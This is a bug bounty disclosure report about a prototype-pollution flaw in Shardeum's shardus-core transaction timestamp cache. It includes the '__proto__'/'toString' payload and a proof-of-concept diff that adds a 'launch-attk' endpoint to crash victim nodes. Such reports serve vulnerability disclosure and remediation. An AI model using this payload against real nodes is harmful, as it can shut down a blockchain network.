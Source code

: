 # 34353 - \[BC - Critical] Killing nodes by polluting tx timestamp cache o...

Submitted on Aug 10th 2024 at 01:29:47 UTC by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34353

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:

* Network not being able to confirm new transactions (total network shutdown)

## Description

## Description

In the @shardus/core source code repo, node store a cache of transaction timestamp. Other node will ask the cache, if it's a miss the node will create new transaction timestamp cache object derived from payload of the request. This mean that malicious party can launch a modified node, send the polluted payload to victim node via `get_tx_timestamp` cache ask endpoint. Subsequently killing the victim node.

## Vulnerability

This happen due to the cache holder node will create a transaction timestamp object if the timestamp for given transaction not found in its own cache. The problem lies within the way the cache is created.

```
this.txTimestampCache[signedTsReceipt.cycleCounter][txId] = signedTsReceipt
```

This way of referencing the cache object to assign a value is dangerous, because the referenced element come straight from the request payload. With that in mind consider the following payload

```
{
  cycleMarker: "__proto__",
  cycleCounter: "__proto__",
  txId: "toString"
}
```

This mean that the cache object will be created in the following way

```
this.txTimestampCache["__proto__"]["toString"] = signedTsReceipt
```

Essentially overwriting the prototype of the cache object, and the `toString` method of the cache object. This is problematic because `toString` is polluted to be a literal string which in turns break the code of the victim when stringify operations are done later down the stream.

## Proof of Concept

* Launch a network of legit nodes.
* Launch an attacker node with this patch applied to shardus/core
* Wait for the attacker node to go active

```diff

diff --git a/src/utils/nestedCounters.ts b/src/utils/nestedCounters.ts
index 3ebbb782..5fbe9796 100644
--- a/src/utils/nestedCounters.ts
+++ b/src/utils/nestedCounters.ts
@@ -5,6 +5,11 @@ import Crypto from '../crypto'
 import { isDebugModeMiddleware, isDebugModeMiddlewareLow } from '../network/debugMiddleware'
 import { getNetworkTimeOffset, shardusGetTime } from '../network'
 import { Utils } from '@shardus/types'
+import { InternalRouteEnum } from '../types/enum/InternalRouteEnum'
+import { getTxTimestampReq, serializeGetTxTimestampReq } from '../types/GetTxTimestampReq'
+import { deserializeGetTxTimestampResp, getTxTimestampResp } from '../types/GetTxTimestampResp'
+import * as crypto from "crypto"
+

 type CounterMap = Map<string, CounterNode>
 interface CounterNode {
@@ -32,6 +37,30 @@ class NestedCounters {
   }

   registerEndpoints(): void {
+
+    Context.network.registerExternalGet('launch-attk', async (req, res)=>{
+
+          const victim = req.query.victim as string
+
+          const node = Context.shardus.getNodeByPubKey(victim)
+
+          const cycleMarker = crypto.randomBytes(254).toString()
+
+          const cycleCounter = "__proto__"
+
+          const txId = "toString"
+
+          const payload = {
+            cycleMarker,
+            cycleCounter,
+            txId
+          }
+
+          const data = await Context.p2p.ask(node, "get_tx_timestamp", payload, false)
+
+          res.send(data)
+    })
+
     Context.network.registerExternalGet('counts', isDebugModeMiddlewareLow, (req, res) => {
       profilerInstance.scopedProfileSectionStart('counts')


```

* Send a request to the attacker node with the victim node public key as a query parameter
* `GET http://localhost:1337/launch-attk?victim=<publickey>`
* observe the logs, the node exit unCleanly, essentially killing the node.

## Impact

This is pretty straight forward single node attack, the script can be modified to attack the whole network to kill the whole network.
